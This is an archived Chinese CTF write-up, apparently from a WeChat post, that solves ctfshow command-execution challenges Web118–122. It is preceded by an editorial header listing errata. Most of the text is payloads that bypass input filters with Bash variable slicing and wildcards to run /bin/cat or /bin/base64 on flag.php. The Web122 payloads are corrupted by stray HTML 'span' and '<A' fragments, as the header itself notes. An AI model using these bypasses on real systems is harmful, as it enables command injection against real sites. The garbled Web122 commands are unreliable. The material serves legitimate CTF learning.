






# ctfshow web入门命令执行

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：ctfshow Bash过滤靶场
- 文献类型：CTF题解Web118–122
- 版本、权限及部署边界：必须Bash而非任意sh，PATH/PWD/HOME/USER/HOSTNAME/SHLVL取值与通配匹配依环境
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 标题泛命令执行而仅指定5关，需关卡索引；源代码/过滤规则仅截图未视检
2. Web122 <A等被HTML标签解析残片污染、span闭合乱入，当前payload不可直接使用，需回源恢复代码围栏
3. ~C/~A位运算和变量未定义时的算术解释、${#}等含义未阐明；固定环境截字不通用
4. RANDOM多次尝试的概率与Shell版本未说明；不把题解当Bash漏洞

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

zoe
                    zoe  哦0吼   2026-02-12 23:06  
  
Web118  
  
一个输入框，没有其他提示，查看源代码，发现  
  
尝试输入ls等都被过滤了 ，看其他师傅操作，使用了bash内置变量  
  
  
  
  
code=${PATH:~C}${PWD:~C} ????.??? 查看源代码得到flag  
  
   
  
  
  
Web119  
  
PATH被过滤了，构造不了nl flag.php，就试试构造其他的。  
  
${HOME:${#HOSTNAME}:${#SHLVL}}  
       
====>  
     
t  
  
   
  
${PWD:${Z}:${#SHLVL}}  
      
====>  
     
/  
  
   
  
/bin/cat flag.php  
  
   
  
${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???  
  
  
  
Web120  
  
有长度限制，  
  
  
  
code=${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???查看源代码得到flag  
  
  
  
Web121  
  
摇骰子，随机到4位数多发几次就行  
  
/bin/base64 flag.php → /???/?????4 ????.??? → ${PWD::${##}}???${PWD::${##}}?????${#RANDOM} ????.???   
  
  
  
Web122  
  
code=     <A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???< span>      </A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?}>  
  
构造错误命令，使$?的结果为1，代替${##}来分割  
  
用命令     <A然后下一条命令中的$?就等价于1了，< span>      </A然后下一条命令中的$?就等价于1了，<>  
  
构造/bin/base64 flag.php => /???/????6? ????.??? =>      <A;${HOME::$?}???${HOME::$?}????${RANDOM::$?}? ????.??? < span>      </A;${HOME::$?}???${HOME::$?}????${RANDOM::$?}?>  
  
要多试几次  
  
  
  

---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
